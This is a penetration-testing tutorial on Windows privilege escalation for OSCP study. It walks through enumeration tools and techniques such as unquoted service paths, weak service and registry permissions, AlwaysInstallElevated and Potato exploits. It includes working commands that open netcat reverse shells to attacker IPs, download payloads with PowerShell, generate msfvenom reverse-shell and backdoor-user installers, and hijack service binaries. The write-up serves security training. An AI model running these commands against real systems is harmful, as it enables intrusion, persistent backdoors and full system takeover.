

Privilege Escalation in Windows for OSCP | InfoSec Write-ups

# Privilege Escalation in Windows

## All roads lead to SYSTEM

[Sourov Ghosh](https://medium.com/@sghosh2402?source=post_page-----380bee3a2842----------------------)

[Apr 18](https://medium.com/bugbountywriteup/privilege-escalation-in-windows-380bee3a2842?source=post_page-----380bee3a2842----------------------) · 7 min read

Privilege Escalation may be daunting at first but it becomes easier once you know what to look for and what to ignore. Privilege escalation always comes down to proper enumeration. This guide will mostly focus on the common privilege escalation techniques and exploiting them.

The starting point for this tutorial is an unprivileged shell on a box. For demonstration purpose, I have used `netcat` to get a reverse shell from a Windows 7 x86 VM.

# Enumeration

I cannot stress enough how important enumeration is. There are a lot of cheat sheets out there to extract valuable information from the systems. In this guide, I will focus on the scripts which are available and using them. Some of the popular scripts available are:

1. [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)by carlospolop

2. [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)by harmj0y

3. [Watson](https://github.com/rasta-mouse/Watson)by rasta-mouse
4. [Seatbelt](https://github.com/GhostPack/Seatbelt)
5. [Powerless](https://github.com/M4ximuss/Powerless)
6. [JAWS](https://github.com/411Hall/JAWS)

In my experience, winPEAS and PowerUp are the most useful tools. PowerUp is written in PowerShell and winPEAS is written in C#. You will require .NET Framework 4.0 to run winPEAS. There is also a .bat version of winPEAS which can be used if .NET support is not present. In my case .NET 4.0 was not installed by default on the Windows 7 so I had to install it to use winPEAS. Always run more than one script for enumeration just to be safe. For example, Weak Registry vulnerability was detected by winPEAS but not by PowerUp.

# Privilege Escalation Techniques

## Stored Credentials

Search the registry for usernames and passwords.

So now that you have found a password what do you do with it? If RDP is accessible and the user is in the`Remote Desktop Users` group then its great. Else you can use the below PowerShell script to run commands as that user.

$secpasswd = ConvertTo-SecureString "password321" -AsPlainText -Force

$mycreds = New-Object System.Management.Automation.PSCredential ("john", $secpasswd)

$computer = "GHOST"

[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","192.168.0.114 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

If `cmdkey /list` returns entries, it means that you may able to runas certain user who stored his credentials in windows.

runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c \IP\share\nc.exe -nv 10.10.14.2 80 -e cmd.exe"

## Windows Kernel Exploitation

If the OS is updated regularly then these exploit will not be of much help. You can use Watson to check for vulnerabilities due to missing patches. Watson is already integrated with winPEAS. In case you find any vulnerability you can download the same from the below repository. Make sure you download the correct architecture for your target. In case you need to compile the binary you can use Kali to cross-compile.

https://github.com/SecWiki/windows-kernel-exploits

## DLL Hijacking

A windows program looks for DLLs when it starts. If these DLL’s do not exist then it is possible to escalate privileges by placing a malicious DLL in the location where the application is looking for.

Generally, a Windows application will use pre-defined search paths to find DLL’s and it will check these paths in a specific order.

1. The directory from which the application loaded
2. 32-bit System directory (C:\Windows\System32)
3. 16-bit System directory (C:\Windows\System)
4. Windows directory (C:\Windows)
5. The current working directory (CWD)
6. Directories in the PATH environment variable (first system and then user)

As you can see that PowerUp has detected a potential DLL hijacking vulnerability. Usually, we write the malicious DLL using `Write-HijackDll` function of PowerUp and restart the program. When the program starts it loads the malicious DLL and executes our code with higher privilege.

Write-HijackDll -DllPath 'C:\Temp\wlbsctrl.dll'

In this case, a quick google search reveals https://github.com/itm4n/Ikeext-Privesc which can be used to exploit this vulnerability.

However, you can do this manually to understand the whole process of exploitation. You can refer to my post [here](https://medium.com/@sghosh2402/ikeext-dll-hijacking-3aefe4dde7f5).

## Unquoted Service Paths

When a service is started Windows will search for the binary to execute. The location of the binary to be executed is declared in the `binPath` attribute. If the path to the binary is unquoted, Windows does not know where the binary is located and will search in all folders, from the beginning of the path.

So, if we want to exploit this misconfiguration, three conditions have to be met:

- The service path is unquoted;
- The service path contains space; and
- We have write permission in one of the intermediate folders.

If the `binPath` is set to
C:\Program Files\Unquoted Path Service\Common Files\service.exe
Windows will search in this order:
1. C:\Program.exe
2. C:\Program Files\Unquoted.exe
3. C:\Program Files\Unquoted Path.exe
4. C:\Program Files\Unquoted Path Service\Common.exe
5. C:\Program Files\Unquoted Path Service\Common Files\service.exe

Unquoted service path detected by PowerUp

Writeable Path detected by winPEAS

Create a payload with `msfvenom` and name it control.exe. Place it in the `C:\Program Files\Unquoted Path Service\common.exe` directory.

powershell -nop -exec bypass -c "(New-Object Net.WebClient).DownloadFile('http://192.168.0.114:8080/common.exe', 'C:\Program Files\Unquoted Path Service\common.exe')"

Execute the payload by starting the service using `sc start unquotedsvc`

## Weak Folder Permissions

If a user has write permission in a folder used by a service, he can replace the binary with a malicious one. When the service is restarted the malicious binary is executed with higher privileges.

Service binary having weak permission

Replacing the file by copying the payload to the service binary location. Restart the service to execute the payload with higher privilege.

copy /y C:\Users\user\Desktop\shell.exe "c:\Program Files\File Permissions Service\filepermservice.exe"sc start filepermsvc

## Weak Service Permissions

Services created by SYSTEM having weak permissions can lead to privilege escalation. If a low privileged user can modify the service configuration, i.e. change the `binPath` to a malicious binary and restart the service then, the malicious binary will be executed with SYSTEM privileges.

If the group “Authenticated users” has **SERVICE_ALL_ACCESS** in a service, then it can modify the binary that is being executed by the service.

msfvenom -p windows/shell_reverse_tcp LPORT=31337 LHOST=YOURIPHERE -f exe-service > shell.exe

When Windows makes a call to start a service, it calls the ServiceMain function and expects a return from this call. If you don’t specify exe-service, the generated payload won’t be able to give you a persistent shell.

Modify the config using and start the service to execute the payload.
`sc config daclsvc binpath= "C:\Users\user\Desktop\shell.exe"`

## Weak Registry Permission

In Windows, services have a registry keys and those keys are located at: `HKLM\SYSTEM\CurrentControlSet\Services\<service_name>`

If **Authenticated Users** or **NT AUTHORITY\INTERACTIVE** have FullControl in any of the services, in that case, you can change the binary that is going to be executed by the service.

Modify the `ImagePath` key of the registry to your payload path and restart the service.

reg add HKLM\SYSTEM\CurrentControlSet\servicesegsvc /v ImagePath /t REG_EXPAND_SZ /d c:\Temp\shell.exe /fsc start regsvc

## Always Install Elevated

Windows can allow low privilege users to install a Microsoft Windows Installer Package (MSI) with system privileges by the AlwaysInstallElevated group policy.

Generate a `msfvenom `payload in `msi`format.

`msfvenom -p windows/adduser USER=backdoor PASS=Pass@1234 -f msi -o setup.msi`
Install the payload using
msiexec /quiet /qn /i C:\Windows\Temp\setup.msi

Backdoor user added after the MSI is installed

## Modifiable Autorun

As the path to the autorun can be modified, we replace the file with our payload. To execute it with elevated privileges we need to wait for someone in the Admin group to login.

Admin login

Payload executed as soon as the admin logs in.

## Tater / Hot Potato

“Hot Potato (aka: Potato) takes advantage of known issues in Windows to gain local privilege escalation in default configurations, namely NTLM relay (specifically HTTP->SMB relay) and NBNS spoofing.”

You can read more about the exploit [here](https://foxglovesecurity.com/2016/01/16/hot-potato/).

We have added lots of users. Let's delete one of them with admin privilege.

Backdoor user inside the admin group

powershell -exec Bypass -c ". .\Tater.ps1;Invoke-Tater -Trigger 1 -Command 'net localgroup administrators backdoor /delete';"

Backdoor user deleted when after the exploit completes.

## Token Manipulation

There are many occasions in penetration testing engagements that the penetration tester has managed to compromise a service like Apache, IIS, SQL, MySQL etc. Unfortunately, this service is not running as local system or under a high privileged account but as network service. You can use the following exploits to escalate privileges.

1. [Rotten Potato](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

2. [Juicy Potato](https://github.com/ohpe/juicy-potato/releases)

## Lazy-Fu

meterpreter> getsystem